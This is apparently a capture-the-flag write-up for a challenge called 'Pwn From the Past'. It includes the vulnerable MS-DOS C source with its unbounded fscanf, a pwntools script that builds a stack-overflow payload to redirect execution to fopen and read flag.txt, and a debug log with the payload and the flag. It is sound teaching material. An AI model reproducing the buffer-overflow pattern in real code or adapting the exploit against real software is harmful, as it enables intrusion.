 # Pwn From the Past &mdash; Solution

The challenge is a compiled C program that reads a string from the file `input.txt` and writes it back to `output.txt`. The flag is located in a file `flag.txt` placed in the same directory.

The string from `input.txt` is read into a local variable with no bounds checking, so the binary is wide open to a stack-based buffer overflow attack.

```c
// Built using Borland C++ 3.0 -- still the best IDE produced by humankind.
// https://winworldpc.com/download/52dfb385-9ba2-11e9-ab10-fa163e9022f0
//
// bcc -v CHALL.CPP
//

#include <stdio.h>

int main() {
  char name[32];
  FILE *input = fopen("input.txt", "rt");
  FILE *output = fopen("output.txt", "wt");

  if (!input) {
    printf("Error opening input file!");
    return 1;
  }
  if (!output) {
    printf("Error opening input file!");
    return 1;
  }

  fscanf(input, "%[^ ]s", name);
  fprintf(output, "Hello %s\n", name);

  fclose(input);
  fclose(output);

  return 0;
}
```

The twist is that the binary is compiled for [MS DOS](https://en.wikipedia.org/wiki/MS-DOS) -- the most popular operating system in the 80's and 90's. In this challenge, the binary is executed within the [DOSBox](https://www.dosbox.com/) emulator.

The modern tooling will not help us here, but no need to worry -- the development tools of the past century in many aspects match and even outshine todays tools. The Borland C++ 3.0 suite, mentioned in the comments, comes equipped with [Turbo Debugger](https://en.wikipedia.org/wiki/Borland_Turbo_Debugger), which is all we'll need for this challenge.

After figuring out how to install software in DOSBox, firing up the Turbo Debugger and stepping through the program we see that, although we're dealing with 16-bit architecture, the basic concepts are essentially the same as in 32-bit and 64-bit x86. In particular, call stack functions the same, and we can overwrite the return address by overflowing a local-variable buffer. Also, [cdecl](https://devblogs.microsoft.com/oldnewthing/20040102-00/?p=41213) calling convention is used --- for example, in the `fopen("input.txt", "rt")` call displayed below, the arguments are pushed to stack right to left before calling `fopen`.

![image](img/td_001.png)

Many different exploits are possible, but the most straightforward approach is to make use of the code already there in the binary. Like in [return-to-libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) attacks, we overflow the stack so that the execution jumps back to the `fopen` call at `0x02a1` with the parameter on the top of the stack pointing to `flag.txt` instead of `input.txt`. The solution code below constructs one such payload.

```python
#!/usr/bin/env python3

from pwn import *

def conn():
    if args.REMOTE:
        p = remote('localhost', 3003)
    else:
        p = process('./server.py')
    return p

fopen_input = 0x02a1
data_rt = 0x00b4
data_flag = 0x003e

payload = b'a'*0x22 # filler
payload += pack(fopen_input, 16) # return address, will jump to fopen call in main
payload += pack(data_flag, 16) # first fopen arg, points to FLAG.TXT injected below
payload += pack(data_rt, 16) # second fopen arg , points to existing string rt
payload += b'x'*0x40 # filler
payload += b'FLAG.TXT\x00' # filename

p = conn()
p.sendlineafter(b':', base64.b64encode(payload))
p.recvuntil(b'OUTPUT.TXT:')
data = p.recvline()
print(base64.b64decode(data))
```

The code is complied for the small [memory model](https://devblogs.microsoft.com/oldnewthing/20200728-00/?p=104012), and data segment `ds` and stack segment `ss` are the same. Hence, overflowing the stack pointer puts our string `FLAG.TXT` in the data segment --- this is not really required for this exploit to work but it's still neat. Notice that it is harder to execute shellcode, since the stack segment `ss` and the code segment `cs` are different.

The CPU state right before the `main` function exit is displayed below. Note that Turbo Debuger displays the stack "upside down".

![image](img/td_002.png)

Now the execution will complete and the contents of `flag.txt` will be copied to `output.txt`.

```bash
$ python3 solve.py REMOTE DEBUG
[+] Opening connection to localhost on port 3003: Done
[DEBUG] Received 0x28 bytes:
    b'Enter contents for INPUT.TXT (base64): \n'
[DEBUG] Sent 0x99 bytes:
    b'YWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYaECPgC0AHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHhGTEFHLlRYVAA=\n'
[DEBUG] Received 0x43 bytes:
    b'Running /usr/bin/dosbox -c MOUNT C ./run/tmpq1zi1dc6 -c C:\\RUN.BAT\n'
[DEBUG] Received 0x4a bytes:
    b'Your OUTPUT.TXT: SGVsbG8gVEJUTHt5MHVfazFkNV82MzdfMGZmX215X2w0d24hfQ0KDQo=\n'
b'Hello TBTL{y0u_k1d5_637_0ff_my_l4wn!}\r\n\r\n'
[*] Closed connection to localhost port 3003
```
